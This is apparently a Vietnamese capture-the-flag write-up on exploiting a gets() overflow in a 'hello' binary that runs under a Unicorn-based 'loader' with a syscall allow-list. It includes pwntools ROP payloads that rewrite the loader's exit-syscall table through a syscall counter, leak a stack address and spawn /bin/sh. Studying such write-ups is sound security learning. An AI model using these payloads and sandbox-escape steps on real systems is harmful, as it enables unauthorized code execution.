- Đề cho ta 2 file binary, file `hello` là một file chứa các hàm mô phỏng từ libc như gets, puts, ... được viết bằng các syscall và hàm main thực thi gets(buf), ở đây ta sẽ có lỗi overflow. Còn file `loader` là một chương trình mô phỏng `cpu` nó thực hiện load và thực thi file `hello` với các ràng buộc syscall

- checksec 2 file:

- 

- Ở file `hello` do `stack` và `pie` tắt nên ta dễ dàng overflow và chèn các gadget, tuy nhiên các hàm thực thi của `hello` đều phải thông qua ràng buộc syscall của `loader`

- 

- 

- `loader` allow các syscall: `0x400, 0x1, 0x0, 0x10, 0x14`. Khi một syscall khác những syscall trên thì nó sẽ thực thi đoạn mã sau:

- ```c
  v9 = 0;
  for ( j = 0; (unsigned __int64)j <= 1; ++j )
  {
    if ( exit_syscalls[j] == sysno )
      syscall(sysno, *(_QWORD *)fd, v14, nbytes);
  }
  printf(">>> enumation stoped because of invalid syscall %d\n", sysno);
  uc_emu_stop(v8);
  break;
  ```

- Dường như nếu `number syscall` là `exit_syscall` thì thì nó sẽ thực thi hàm `syscall` bên dưới, ta có thể lợi dùng điều này để thực thi `syscall(0x3b, '/bin/sh', 0, 0)` để làm được điều này thì ta cần thay đổi giá trị trong `exit_syscall` thành `0x3b`

- Và điều này khả thi vì ta có đoạn mã này

- ```c
  ++syscall_cnt;
  memset(s, 0, 0x80uLL);
  uc_reg_read(a1, 35LL, &sysno);
  uc_reg_read(a1, 39LL, fd);
  uc_reg_read(a1, 43LL, &v14);
  uc_reg_read(a1, 40LL, &nbytes);
  if ( sysno == 0x400 )
  {
    v25 = *(_QWORD *)fd - 8323072LL;
    *(_DWORD *)((char *)&stack + *(_QWORD *)fd - 8323072) = syscall_cnt;
  }
  ```

- Do `stack` và `exit_syscall` đều nằm trên `bss` do đó ta có thể thay đổi nó. Bây giờ ta sẽ thực thi hàm overflow `hello` và thực thi lại hàm `puts` 52 lần thì `syscall_cnt = 0x3b`.

- ```python
  payload = b'a'*264
  payload += p64(pop_rdi) + p64(libc) + p64(hello.sym['puts'])*52
  payload += flat(
      pop_rax, 0x400,
      pop_rdi, 7820912,
      syscall,
  )
  ```

- 

- Mục tiêu tiếp theo ta sẽ tìm chuỗi `/bin/sh`, ta có thể leak libc hoặc heap hay stack do 2 phần vùng lưu các giá trị nhập vào là heap và stack nên ta có thể nhập chuỗi `/bin/sh` vào.

- Ban đầu tôi định lợi dụng `sys_write` để thực thi hàm `printf` và in ra những giá trị nhập vào kề nhau hy vọng leak được cái gì đó.

- Thử test với `payload` như này

- ```python
  addr = 0x4005c88
  payload += flat(
      pop_rdi, addr,
      hello.sym['gets'],
      pop_rax, 0x1,
      pop_rdi, 0x1,
      pop_rsi, addr, 0x1,
      pop_rdx, 0x100,
      syscall
  )
  r.sendlineafter(b'name: \n', payload)
  r.sendline(b'a'*16)
  ```

- Ta sẽ đặt `breakpoint` tại `case 1` để xem cách thức hoạt động của `syscall write` này.

- 

- 

- dường như `uc_mem_read` sẽ copy liệu từ `addr` rồi chuyển vào `stack` theo ` size` nhất định ở đây là 0x100. Sau đó nó chuyển đến `printf` để in ra

- 

- Do size quá lớn nên đã ghi đè lên canary

- 

- Và tôi tính rằng sẽ tìm 1 địa chỉ chứa 1 giá trị đại loại là như `stack` hay `libc` gì đó trên `hello` để in ra. Tôi tìm tìm thấy một số địa chỉ như `0x4005c88` và `0x4005250` chúng chứa giá trị `stack` nhưng dường như nó không hoạt động trên file `loader` khi nó chỉ in ra 3 byte của 1 đoạn địa chỉ vô định nào đó.

- Tôi tự hỏi rằng nếu hàm `uc_mem_read` copy dữ liệu từ một địa chỉ trên `hello` thì `uc_mem_write` copy cái gì đó từ `loader` lên `hello`, vây nên tôi sẽ set payload để thực hiện `syscall 0x1` để thực thi `uc_mem_write`, vì trên file `loader` ta không thể tương tác với các địa chỉ trên `hello` nên sau khi `syscall 0x1` thì tôi sẽ `sys_write` và đặt `breakpoint` tại `uc_mem_read` xem nó đọc được gì.

- ```python
  addr = 0x4005c88
  payload += flat(
      pop_rax, 0x0,
      pop_rdi, 0x0,
      pop_rsi, addr, 0x0,
      pop_rdx, 0x60,
      syscall,
      pop_rax, 0x1,
      pop_rdi, 0x1,
      pop_rsi, addr, 0x0,
      pop_rdx, 0x60,
      syscall
  )
  r.sendlineafter(b'name: \n', payload)
  r.recv()
  r.send(b'a'*16)
  ```

- 

- 

- Ta có thể thấy được răng `uc_mem_write` đã đưa một số dữ liệu vào `addr` và khi ta `uc_mem_read` nó đã được đẩy lên `stack`, giờ ta đã có thể leak được `stack` ra.

- Sau khi leak `stack` ta gọi lại `main` và `gets` chuỗi `/bin/sh` vào `stack` để thực thi `syscall(0x3b, '/bin/sh', 0, 0)`

- ```c
  payload = b'a'*256 + b'/bin/sh\x00'
  payload += flat(
      pop_rdi, addr,
      hello.sym['gets'],
      pop_rax, 0x3b,
      pop_rdi, binsh,
      pop_rsi, 0,0,
      pop_rdx,0,
      syscall  
  )
  
  r.sendlineafter(b'name: \n', payload)
  r.recv()
  r.sendline(b'/bin/sh\x00')
  ```

- 